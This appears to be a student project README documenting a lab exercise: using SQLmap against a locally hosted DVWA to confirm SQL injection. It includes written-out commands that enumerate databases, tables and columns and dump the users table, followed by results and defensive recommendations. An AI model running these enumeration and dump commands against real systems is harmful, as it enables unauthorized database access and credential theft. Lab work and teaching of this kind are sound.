 # Project Documentation: SQL Injection Testing with SQLmap

## 1. Introduction
This project demonstrates how to identify and exploit SQL Injection vulnerabilities using **SQLmap**, an automated SQL Injection tool. The target application is the Damn Vulnerable Web Application (DVWA), configured at low security level for educational purposes.

---

## 2. Objectives
- To understand how SQL Injection vulnerabilities work.
- To use SQLmap for detecting and exploiting SQL Injection flaws.
- To extract database information including databases, tables, columns, and data.
- To generate detailed reports based on the findings.

---

## 3. Tools and Technologies
- **SQLmap**: An open-source penetration testing tool.
- **DVWA**: Vulnerable web application for practice.
- **Python**: To run sqlmap scripts.
- **Docker**: Hosting DVWA locally (optional).
- **Git & VS Code**: For version control and code editing.

---

## 4. System Requirements
- Operating System: Windows/Linux/MacOS
- Python 3.x installed
- Git installed
- Docker (optional for hosting DVWA)
- Internet access for downloading dependencies

---

## 5. Setup and Installation

### a. Setting up DVWA
- Download and run DVWA using Docker or set it up on a local webserver.
- Set security level to 'low' for easy testing.

### b. Installing SQLmap
- Download SQLmap from [official repo](https://github.com/sqlmapproject/sqlmap).
- Ensure Python is installed.
- Run sqlmap via terminal or command prompt.


## 6. Usage

### Detecting SQL Injection and Enumerating Databases
```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=52mjgugebi15c212kkbtf7ecj4" --batch --dbs
````

### Listing Tables

```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=52mjgugebi15c212kkbtf7ecj4" --batch -D dvwa --tables
```

### Listing Columns

```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=52mjgugebi15c212kkbtf7ecj4" --batch -D dvwa -T users --columns
```

### Dumping Data

```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=52mjgugebi15c212kkbtf7ecj4" --batch -D dvwa -T users --dump



## 7. Results and Analysis

* Databases found: `dvwa`, `information_schema`.
* Tables in `dvwa`: `users`, `guestbook`.
* Extracted user data with hashed passwords.
* Vulnerability confirmed via successful data extraction.

## 8. Recommendations

* Use parameterized queries to prevent SQL Injection.
* Hash passwords with strong algorithms like bcrypt.
* Implement input validation and sanitization.
* Employ Web Application Firewalls (WAFs).
* Avoid exposing detailed error messages.

## 9. Conclusion

This project highlights the dangers of SQL Injection vulnerabilities and the ease with which attackers can exploit them using automated tools like SQLmap. Proper security practices are critical to safeguard applications.

## 10. References

* [SQLmap Official GitHub](https://github.com/sqlmapproject/sqlmap)
* [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)
* OWASP SQL Injection Prevention Cheat Sheet
